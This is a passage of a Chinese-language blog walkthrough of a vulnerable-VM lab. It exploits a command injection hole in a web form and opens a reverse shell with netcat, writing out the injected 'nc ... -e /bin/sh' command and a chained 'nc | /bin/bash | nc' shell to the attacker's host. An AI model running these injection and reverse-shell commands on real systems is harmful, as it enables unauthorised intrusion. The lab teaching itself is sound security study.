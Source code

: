 ![20220430_2045.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/5e43c295ee5bc7e83551ee198f3c58e4.png)

在进行尝试之后，发现这个表单确实有命令注入漏洞
并成功得到了我们预想的结果: id命令的执行结果

![20220430_2045_1.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/4b5a97c1a10a3c9a39c1e99e361ea6f8.png)


这时我们就要想办法来获得该靶机的网站权限的shell ( 反弹SHELL )

反弹SHELL 有很多种方式如：
+ 使用 Python 反弹SHELL 如在[Social Network](http://www.zhouhaobusy.com/articles/85)这台靶机就是使用这种方式
+ 使用 nc 反弹SHELL (<font color=red> Python 环境目标靶机不一定会有,而 nc 在大部分 Linux 系统中都会预装</font>)

> 这一次我们使用 nc 来进行反弹shell

首先要确认目标靶机中是否有 nc 命令 我们执行
```bash
hello | which nc
```

![20220430_2055.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/7a833cc1a385122b7f907d2170708811.png)
发现目标主机有nc命令
> 通常情况下 nc 有 -e 参数来指定连接成功后的shell

现在攻击机上监听对应想要反弹shell的端口 (4444)

```bash
nc -nvlp 4444
```


如果目标主机nc 版本较新的话,就能通过下面命令成功后在攻击机上获得目标靶机的 shell

```bash
hello | nc 10.0.2.7 4444 -e /bin/sh
```

执行之后发现并没有成功获得shell,说明目标靶机的nc版本并不支持 `-e` 参数

这时我们测试 nc 的基本连接

```bash
hello | nc 10.0.2.7 4444
```
发现攻击机上成功连接到目标靶机发来的 nc 连接请求

![20220430_2106.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/1c5df0c16874eb4fbb6e81df6be1a76b.png)

## <font color=green>NC串联</font>

```bash
hello | nc 10.0.2.7 3333 | /bin/bash | nc 10.0.2.7 4444
```

当我们使用上面这条命令时,我们必须在 攻击机上使用nc监听两个端口( 3333 , 4444 )

![20220430_2118.png](http://zhouhao-blog.oss-cn-shanghai.aliyuncs.com/articles/f258b8fba53b959d4258412f2c953b88.png)
